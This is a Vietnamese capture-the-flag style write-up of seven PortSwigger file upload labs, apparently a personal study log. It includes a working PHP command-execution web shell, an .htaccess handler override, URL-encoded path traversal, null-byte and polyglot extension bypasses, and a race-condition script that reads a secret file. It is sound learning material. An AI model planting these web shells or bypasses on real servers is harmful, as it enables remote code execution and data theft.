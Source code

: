 # File upload vulnerabilities - Portswigger
## 1. Remote code execution via web shell upload
Bài này khá đơn giản mình chỉ cần upload một file .php chứa webshell lên thay vì ảnh bình thường là được
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_9767f6ee6f146e7dbb1b1fc725bd1efd.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088442&Signature=WkGi0We5UV4qvQlDa%2B2FHiMXXrQ%3D)

Ta dùng lệnh để đọc nội dung trong file secret và có được secret là `TswuW44vMztdKYo8mmAF4TkkJgZjPP8H`
![image]([https://github.com/b4shu206/PortSwigger/blob/main/FILE%20UPLOAD%20VULNERABILITY/image/upload_d3e6ff0bebadb6a39d64d978767febf3.png](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_d3e6ff0bebadb6a39d64d978767febf3.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088453&Signature=2kUgya7nVZvkzTmsv2jAsrhvjL0%3D))

Nạp secret và solved được lab.
## 2. Web shell upload via Content-Type restriction bypass
Lần này ta chỉ việc thay đổi content-type thành `image/png` là đã upload thành công webshell

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_21afc9803724dea78bd4f0ca2576a2e4.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088370&Signature=SoIWNqzsBEi79jQY2ODSm4UzyWE%3D)

Dùng lệnh đọc và lấy được secret `KnLwUfLjerQDbWM72RyBeFGqdI6zSjkh`

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_4e2829ff5d061c54dc2a08fe69008373.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088473&Signature=9rk6nz9gAI5U3LNXVNePzFxUI7E%3D)

Submit và đã solved được lab.

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_8bc4dc85e7201c750ffb7553fb27b2d7.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088481&Signature=aKeeavNLo4guHzd1pcoDc4HKeIs%3D)
## 3. Web shell upload via path traversal
Ta đọc đề thì thấy ta cần kết hợp với lỗi path traversal. Mình có thử upload lên nhưng webshell không hoạt động

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_ee41d5c786b757c569cc76d59b630cb1.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088487&Signature=jb92lQq9dqvwuiJw3XNUDZdx3Cc%3D)

Vậy ta cần đổi tên file để có thể upload ra ngoài thư mục avatars và webshell ta nó sẽ hoạt động.
Ta search payload ở [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md)

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_2db7888f0337e5a7fbe19b252cebede0.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088496&Signature=bAb1ptKeUpx5xB2jKcBbTTKSVok%3D)

Có vẻ nhưng `../` , `..\` , `../\` đều đã bị chặn. Nên mình đã dùng `%2e%2e%2f` thì đã upload được thành công ra ngoài.

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_a9928d9e1ece0c73af5264f1c042279f.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088504&Signature=DZvdmL%2BaefyTCOsy%2B3V1kisnI8w%3D)

Truy cập bằng `files/test.php` và đọc file thì được secret `ivFsLt8JIcyD0Y8EriCp5xEg3Mre4OOW`

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_ef1d493a6cfb0cc0b371f94c4801a3d2.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088511&Signature=ADwayR5cU%2FqyUnZVHOrCDHQw8H0%3D)

Submit và đã solved được lab.

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_002b20ff8dff86126747972e8f26835f.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088518&Signature=IyIPgnCiNHxL%2B8XdcOl%2Btj14db0%3D)

## 4. Web shell upload via extension blacklist bypass
Lần này đã bị block hết đuôi `.php`

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_61d2bbd12aeb918cbd270e12ce801c25.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088523&Signature=dx7Y1a3fxpGWp4DAcyDU3XEvuno%3D)

Và không upload được, mình có thử các đuôi khác như php3,php5,php7,... thì file không hoạt động.
Đọc hint thì thấy cần up 2 file khác nhau

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_8e7e0ce4271b69053a3a4c367c9b86cb.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088530&Signature=tiIB1%2FCQBkXhf4D8qjnj%2FfcznY4%3D)

Đọc document thì phát hiện ra ta có thể upload file .htaccess và ghi đè lên nó

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_b9f4e9110e8e9bf36f398fc0c6ba329a.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088536&Signature=jf0IJ3VgjrIeKB2pzcqAeub95Qc%3D)

Ta có thể cho 1 đuôi bất kỳ nhưng vẫn hoạt động như file .php bằng nội dung sau thì file .test sẽ hoạt động như .php
```
<FilesMatch "\.test$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_2c285545e52b19386199d279f314dca9.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088558&Signature=NhP8MedCxbenjsUYxZtHiCe4R7Q%3D)

Giờ ta chỉ việc sửa đuôi file và tên file là `test.test` và upload thôi

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_7af32d6c85d755a1add67bf5badeed4e.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088564&Signature=qbYOHNQ7qvg8BHQ3lCmehoc7B%2Fw%3D)

Vậy là ta đã upload thành công giờ chỉ việc đọc file và lấy được secret là `VQMWq5rpLrkIqlUiBzngnRvFd9skJLJX`

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_ca4b11f2b5f8c4ec706f7c872f8cb4c8.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088573&Signature=ORIw4EHvsgCd2qpnwV50f1TaeN8%3D)

Nạp và ta đã solved được lab.

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_b246bfb0be5a7f48d0fbf85faf3c5793.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088578&Signature=sDREjzHSQ6X%2BQYljUOu7Hq%2FD6s0%3D)

## 5. Web shell upload via obfuscated file extension
Ta tiếp tục đọc document

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_cabe38a74f9711faec2c1e02b990ca20.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088584&Signature=tKMHlz6G%2BA8JitMLy417adetryk%3D)

Thì bày này chỉ chấp nhận việc ta upload file `.jpg` hoặc là `.png`

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_2e0dcb867c689993c501f73011c89642.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088592&Signature=R8NoJCCdaSAaNEhXWzdptR3Rpmo%3D)

Và nó chỉ cần có đuôi `.jpg` hoặc `.png` ở cuối là được ta có thể bypass bằng cách thêm byte null trước đuôi `.png` thì vẫn bypass qua được nhưng đuôi `.png` sẽ biến mất

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_c0d94b34df7476790fb29b6ddecd9b55.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088599&Signature=BCiPVtkDlQcIyRJvuQliy5PXAak%3D)

Vậy là ta đã upload thành công. Giờ chỉ việc đọc file và có được secret là `rHv3lt6txH4VT1iYVdvztrkbOh7qgGQa`

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_2aab46f26d16b6f8d3c419de796c8bfd.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088607&Signature=sr3lQ15KKJEx9%2FtAcqA%2FqLFkPR8%3D)

Và solved được lab

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_22b10e5e696772b58a19c80c097bb230.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088615&Signature=cbfjMtLGLdqKhCBvnB3%2FpOmz1K8%3D)

## 6. Remote code execution via polyglot web shell upload
Vì bài này chỉ check content trong có chính xác là bức ảnh hay không nên ta thử đổi tên file là `.php` thì vẫn upload bình thường

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_1fbf52fa9296bd7165e0f5e62b012d8c.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088623&Signature=QUr%2ButYbzJ4SWek18aDq9nsgss4%3D)

Giờ ta chỉ việc chèn webshell ở dưới nội dung ảnh và up lên là được

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_2fc771c6bf479a855bd2e328c69d04ab.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088634&Signature=xX6qh55y%2FS%2FH3VIrCJQb7IQagmQ%3D)

Và ta đã upload thành công webshell lên và lấy được secret là `tVhTcZSPJdxe2ObMmUN7bY2oletBZsnU`

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_bafeb4bc08087a106feff5c6b976f424.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088642&Signature=bdOEO3WAER2r1nFCk4W5hCJtuPA%3D)

Submit và đã solved được lab

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_5f4d67f37b53e7cc7d03957c707fa0a6.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088648&Signature=lJuA381P5JFmUj%2BJDXHHWfKTP3Q%3D)

## 7. Web shell upload via race condition
Mình thử upload 1 loạt file lên thì đều không thành công

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_5caff772fe2baf66a0b7bb3621da4acc.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088658&Signature=OyZEmRgnpfYAWin6ldZVMgJBSQ0%3D)

Nên đọc thử document

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_f9cf9a1e95dc6c0f06cc9916fa2e5af4.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088668&Signature=jt1xR1IoeUrDPTK2QY%2FMiyg2xO0%3D)

Và đọc hint thì ta có sourcecode
```php
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
```
Thì có vẻ giống như document nó vẫn tải lên và lưu trữ  sau đó mới chuyển rồi kiểm tra và khi không vượt qua kiểm tra thì mới xóa.
Trong thời gian di chuyển thì mình có thể chèn thêm 1 request `GET` để chạy file mình vừa upload lên
Nội dung file là:
```php
<?php
echo "<pre>" . htmlspecialchars(file_get_contents('/home/carlos/secret')) . "</pre>";
?>
```
Và ta gộp thành group và sử dụng chức năng `Send group (parallel)` để có thể gửi 2 request này cùng lúc

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_fa032671c7c6753740c0d84268e68abd.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088683&Signature=ydZ133HhbNqMxRtqmIUVaOHC86o%3D)

Cách này còn tùy thuộc vào mạng nhà bạn và độ nhân phẩm =))
Sau rất nhiều lần gửi đi gửi lại thì mình đã đọc và có được secret.

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_9a6a63e85c2e36dd2bcc1684cd736646.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088690&Signature=FzDe%2B3qrCq9UqyTqEuXMgzgYiMg%3D)
Đem đi nạp và solved được lab.
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_6828c3e7aadcd41cea2dd228285b7458.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088353&Signature=VQE6PtNQ5ivYTamV8owQKVDOlrc%3D)
